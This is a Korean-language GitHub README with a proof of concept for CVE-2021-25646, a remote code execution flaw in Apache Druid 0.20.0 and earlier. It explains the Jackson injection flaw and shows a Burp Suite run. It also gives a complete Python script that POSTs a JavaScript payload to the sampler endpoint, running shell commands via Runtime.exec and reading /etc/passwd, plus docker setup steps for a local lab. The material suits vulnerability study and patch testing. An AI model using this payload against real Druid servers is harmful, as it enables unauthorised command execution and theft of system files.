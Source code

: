 # CVE-2021-25646
[Original README(English version)](README_eng.md)

### Apache Druid에서의 원격 코드 실행(RCE) 취약점
- Apache druid는 다양한 종류의 requests를 통해 사용자 제공 Javascript 코드를 실행하는 기능을 가지고 있음
-  이 기능은 신뢰 가능한 환경에서 사용하기 위한 것으로, 기본적으로 비활성화되어있음
-  하지만 Druid 0.20.0 혹은 그 이전 버전에서 1)서버 구성에 관계없이 2)인증된 사용자가  자신이 제공한 Javascript 코드를 실행하도록 요청을 보낼 수 있음이 밝혀짐
- 해당 취약점은 Druid 서버 프로세스의 권한으로 타겟 시스템에서 코드를 실행하는데 사용될 수 있음

### 취약 버전
- Apache Druid <= 0.20.0

### 취약점 발생 부분 분석
- Jackson 라이브러리는 Java 객체를 JSON으로, 또는 JSON을 Java 객체로 변환해주는 라이브러리이다. Jackson 라이브러리의 특정 동작 방식을 이용해 exploit
![](analysis1.png)
- @JsonCreator 주석이 달려있는 생성자를 살펴보자. 매개변수에 @JsonProperty가 없고 대신 @JacksonInject 가 있다면 해당 매개변수는 사용자 입력에서 값 받아올 수 있게 된다.
- 즉 사용자가 전달한 json 문자열을 파싱할 때 config 매개변수의 값을 사용자가 제어할 수 있는 취약점 발생.

![](analysis2.png)
- user payload로 전달된 함수는 js 엔진에 의해 실행되고, js 코드는 java 함수 호출을 지원하므로 시스템 명령을 호출하는 java 코드를 작성하면 되겠다
```
var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(["sh","-c", payload ]).getInputStream()).useDelimiter("\\A").next();
```

### 취약점 발생 확인
- docker-compose를 이용해 apache-druid-0.20.0 서버 올려놓고 로컬에서 테스트해보았다.

- Burp Suite를 이용해 GET 요청을 가로챈 후, payload가 포함된 POST 요청으로 바꿔치기해 forward했다.
![](burpsuite1.png)

- 유저 화면에 코드 실행 결과가 그대로 노출된다
![](burpsuite2.png)

- 파이썬 requests 모듈을 이용해 취약 서버에 payload 포함된 POST 요청을 보내보았다.
```python
import requests

url = "http://localhost:8888/druid/indexer/v1/sampler"

headers = {
    "Accept-Encoding": "gzip, deflate",
    "Accept": "*/*",
    "Accept-Language": "en-US;q=0.9,en;q=0.8",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36",
    "Connection": "close",
    "Cache-Control": "max-age=0",
    "Content-Type": "application/json"
}

data = {
    "type": "index",
    "spec": {
        "ioConfig": {
            "type": "index",
            "firehose": {
                "type": "local",
                "baseDir": "/etc",
                "filter": "passwd"
            }
        },
        "dataSchema": {
            "dataSource": "test",
            "parser": {
                "parseSpec": {
                    "format": "javascript",
                    "timestampSpec": {},
                    "dimensionsSpec": {},
                    "function": 'function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(["sh","-c","id"]).getInputStream()).useDelimiter("\\A").next();return {timestamp:123123,test: a}}',
                    "": {
                        "enabled": "true"
                    }
                }
            }
        }
    },
    "samplerConfig": {
        "numRows": 10
    }
}

c = requests.post(url, headers=headers, json=data)
print(c.text)
```

- "test"에 해당하는 값이 code execution 결과이다. 터미널에 결과가 출력되도록 payload code를 구성해 보내야 별다른 에러가 발생하지 않더라
![](userequests.png)

### Prerequisites
- docker-compose 설치되어있어야 함
- make 설치되어있어야 함. `sudo apt update && sudo apt install make` 통해 설치 가능
- python3, requests 모듈 필요

### 환경 구성 및 실행
(작성자는 Ubuntu 22.04 LTS 버전에서 테스트 진행함)
- `make` 명령어 입력
- 옵션 선택, 1번 옵션 선택하여 (터미널 출력이 있는) 유효한 쉘코드 입력하여 결과 확인
- 도커 종료하고 싶으면 `make delete` 명령어 입력

![](result1.png)
![](result2.png)
